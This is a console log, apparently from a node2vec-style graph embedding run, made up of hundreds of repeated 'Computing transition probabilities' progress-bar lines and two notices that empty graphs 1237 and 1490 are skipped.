Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/9 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/9 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/18 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Graph 1237 is empty and will be skipped.


Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/17 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/17 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/11 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/17 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/17 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/18 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/17 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/11 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/17 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/18 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/16 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Graph 1490 is empty and will be skipped.


Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/8 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/18 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/18 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/16 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

